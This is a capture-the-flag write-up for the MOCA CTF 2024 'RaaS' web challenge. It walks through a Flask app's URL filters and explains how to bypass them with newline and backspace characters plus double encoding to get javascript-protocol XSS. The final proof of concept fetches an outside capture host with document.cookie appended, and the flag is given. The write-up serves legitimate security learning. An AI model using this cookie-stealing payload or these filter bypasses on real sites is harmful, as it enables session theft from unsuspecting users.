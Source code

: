 ```yaml
---
layout: post
title: RaaS [WEB] writeup - MOCA CTF 2024 Quals 
author: simonedimaria
category: writeups
chall-category: web
tags: web xss flask
---
```



# RaaS [WEB] - MOCA CTF 2024 Quals
---
![[./assets/MocaCTF_logo.png]]

# TL;DR

- The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.
# 0. Description

> A simple click-to-xss to warmup.

---
## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![[./assets/RaaS_firstlook.png]]

Source code is provided, so we'll look into that to understand what's happening.

## 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**
```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```


Clicking on the "*Get Redirected!*" button will trigger the `/redirectTo` route, which is anyway triggered also by the "*Redirect the Admin!*" button that executes the `/redirectAdmin` route.
The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. 
The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "*Follow Link*" button.

![[./assets/Raas_redirectTo.png]]

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ```r'[()=$`]'``` that will limit us later on exploitation.
Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![[./assets/Raas_browserblock.png]]
My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

# 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.
## 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it!
We will write
```
java
script
```
instead.
Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

>[!info] NOTE
> Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter.
The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

## 2.2) doesn't starts with "j" bypass

This one was tougher.
the strip function that was allowing me to bypass the previous check was sending me crazy on this one.
Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`).
Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:
![[./assets/Raas_NULLbyteinurl.png]]
As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol.
However, i felt in being in the right path, until the previous blog confirmed my sensations.

![[./assets/RaaS_controlcharsinURL.png]]
Control Characters are allowed?? It did, in fact.
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol!
And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control_character) below would have probably get the job done.
![[./assets/Raas_ASCIIcontrolchars.png]]
## 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

>[!info] Fun Fact
> [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md).
I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.
## 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![[./assets/RaaS_finalpayload.png]]
> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

---
### TAGS: #XSS #flask